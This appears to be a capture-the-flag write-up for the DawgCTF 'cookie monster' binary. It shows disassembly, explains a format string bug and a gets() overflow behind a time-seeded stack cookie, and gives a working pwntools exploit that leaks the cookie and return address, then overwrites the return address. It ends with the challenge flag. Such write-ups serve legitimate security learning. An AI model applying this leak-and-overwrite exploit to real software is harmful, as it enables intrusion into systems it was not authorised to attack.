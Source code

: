 # cookie monster

RELRO:    Full RELRO
NX:       NX enabled
PIE:      PIE enabled


the `main()` function calls `conversation()` that reads input twice then returns.

```
$ ./cookie_monster 
               _  _
             _/0\/ \_
    .-.   .-` \_/\0/ '-.
   /:::\ / ,_________,  \
  /\:::/ \  '. (:::/  `'-;
  \ `-'`\ '._ `"'"'\__    \
   `'-.  \   `)-=-=(  `,   |
       \  `-"`      `"-`   /
C is for cookie is for me
Oh hello there, what's your name?
name
Hello, name

Would you like a cookie?
yes
```

this is the dump of assembler code for fuction `conversation()`

```asm
<+0>:	push   rbp
<+1>:	mov    rbp,rsp
<+4>:	sub    rsp,0x20
<+8>:	mov    edi,0x0
<+13>:	call   0x1080 <time@plt>
<+18>:	mov    edi,eax
<+20>:	call   0x1050 <srand@plt>
<+25>:	call   0x10b0 <rand@plt>
<+30>:	mov    DWORD PTR [rbp-0x4],eax
<+33>:	mov    eax,DWORD PTR [rbp-0x4]
<+36>:	mov    DWORD PTR [rip+0x2dcd],eax        # 0x401c <saved_cookie>
<+42>:	lea    rdi,[rip+0xe02]        # 0x2058
<+49>:	call   0x1030 <puts@plt>
<+54>:	mov    rdx,QWORD PTR [rip+0x2dae]        # 0x4010 <stdin@@GLIBC_2.2.5>
<+61>:	lea    rax,[rbp-0xc]
<+65>:	mov    esi,0x8
<+70>:	mov    rdi,rax
<+73>:	call   0x1060 <fgets@plt>
<+78>:	lea    rdi,[rip+0xe01]        # 0x207b
<+85>:	mov    eax,0x0
<+90>:	call   0x1040 <printf@plt>
<+95>:	lea    rax,[rbp-0xc]
<+99>:	mov    rdi,rax
<+102>:	mov    eax,0x0
<+107>:	call   0x1040 <printf@plt>
<+112>:	lea    rdi,[rip+0xde7]        # 0x2083
<+119>:	call   0x1030 <puts@plt>
<+124>:	lea    rax,[rbp-0x11]
<+128>:	mov    rdi,rax
<+131>:	mov    eax,0x0
<+136>:	call   0x1090 <gets@plt>
<+141>:	mov    eax,DWORD PTR [rbp-0x4]
<+144>:	mov    edi,eax
<+146>:	call   0x11f6 <check_cookie>
<+151>:	nop
<+152>:	leave  
<+153>:	ret
```
the first input with `fgets()` <+73> reads 7 characters, we notice there is a format string vulnarbility<br>
at `printf()` <+90> but we can only leak one address at the time, the second input calls `gets()` <+136><br>
so we can overflow the buffer but there is a `check_cookie()` function at <+146> that exits if the stack cookie<br>
value at the bottom of the stack is changed<br>

to be able to jump to the flag function, we have to leak the stack cookie and the return address<br>

the value of the stack cookie changes every second, so we can leak the cookie in a first iteration<br>
then leak the return address in a second iteration before the cookie changes and overwrite the return address<br>

[exploit.py](./exploit.py)
```python
#!/usr/bin/env python2

from pwn import *
import sys

if len(sys.argv) == 1:
    conn = remote('ctf.umbccd.io', 4200)
else:
    conn = process('./cookie_monster')

conn.sendlineafter('?', '%9$lx')
conn.recvuntil('Hello, ')
canary = p32(int(conn.recv(8), 16))
conn.close()

conn = process('./cookie_monster')
conn.sendlineafter('?', '%11$lx')
conn.recvuntil('Hello, ')
ret = p64(int(conn.recv(12), 16) - 0x19a)
payload = 'a'*13 + canary + 'a'*8 + ret
conn.sendlineafter('?', payload)
print conn.recvall()
conn.close()
```

### flag
DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}
